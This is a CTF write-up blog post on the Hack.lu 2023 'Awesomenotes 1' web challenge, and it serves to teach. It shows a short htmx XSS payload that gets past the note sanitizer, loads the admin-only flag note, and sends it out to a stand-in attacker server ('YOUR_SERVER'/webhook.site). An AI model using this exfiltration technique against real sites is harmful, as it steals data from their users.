 ```yaml
---
layout: post
title: "Hack.lu CTF Awesomenotes 1 web challenge writeup"
date: 2023-10-15 21:30:00 +0100
categories: ctf web security writeup htmx
permalink: /posts/ctf-hack-lu-web-awesomenotes
---
```


## Awesomenotes 1

CTF name: **[Hack.lu CTF 2023](https://flu.xxx/info)**

Challenge name: **Awesomenotes 1**

Challenge description:

```text
We're excited to announce our new, revolutionary product: A note-taking app. This phenomenal product uses the most up-to-date, bleeding-edge tech in order to stay ahead of all potential security issues. No-one can pwn us.
```

Challenge category: **web**

Challenge points: **88**

When: **Fri, Oct. 13, 18:00 — Sun, Oct. 15, 18:00 UTC**

### TLDR - solution

```html
<div 
    hx-get="/api/note/flag?t=" 
    hx-trigger="load delay:0.001s"
    hx-target="#report"
>
    get flag
</div>
<div 
    hx-get="YOUR_SERVER" 
    hx-on::config-request="event.detail.parameters['flag'] = document.getElementById('report').innerHTML"
    hx-trigger="load delay:0.8s"
    hx-target="#report"
>
    send flag
</div>
```

### Description

![Alt text](/assets/images/2023-10-15/image-4.png)

Challenge was marked as **beginner friendly**. You're greet with a simple web page where you can create and report a `note`.

![Alt text](/assets/images/2023-10-15/image-8.png)

After checking the `get_note` function we knew the flag location (in a `flag` note) and that only admin had an access to it.

![Alt text](/assets/images/2023-10-15/image-1.png)

Another function `take_report` is called by a bot after reporting a note. The last function `upload_note` has some logic to sanitize a user input. After a quick look you find that `hx-` tags are allowed.

![Alt text](/assets/images/2023-10-15/image-2.png)

Another hint is in the `note.html` file.

![Alt text](/assets/images/2023-10-15/image-3.png)

It should be clear by now that we need to prepare a note and use **XSS** to send us a flag after we report it to admin and that [htmx](https://htmx.org/docs/) is used/allowed on the FE. There's even an example 😉

We used [webhook.site](https://webhook.site) as a temporary log server.

The idea was to use `htmx` to make two calls:

- first to get the `flag` note from `/api/notes/flag`
- second to send the `flag` to our server

`noteId` is always added to `hx-get="/api/note/` on every `post` call, so adding `?t=` at the very end means we can ignore it. `hx-trigger` sets the runtime delay. `hx-target` is our target html element, so we used the `report` bottom link button with `id="report"`.

![Alt text](/assets/images/2023-10-15/image-5.png)

We've got the first call ready (it fails with `401` while testing. It's a good sign because we don't have an access to the flag).

The second part is all about `hx-on::config-request`. In the [docs](https://htmx.org/events/#htmx:configRequest) we've found you can set event parameters via `event.detail.parameters['your_parameter']`. We should already have the `flag` in `#report` link, so all we need is to get the value via `document.getElementById('report').innerHTML`. Last thing is to set the trigger to give some time for the first call to update the link.

Send prepared note, wait for a request

![Alt text](/assets/images/2023-10-15/image-7.png)

and you get the `flag`

```text
flag{C3r34l_1s_s0up_l1k3_1f_4gr33}
```

{% include posts_footer.html %}
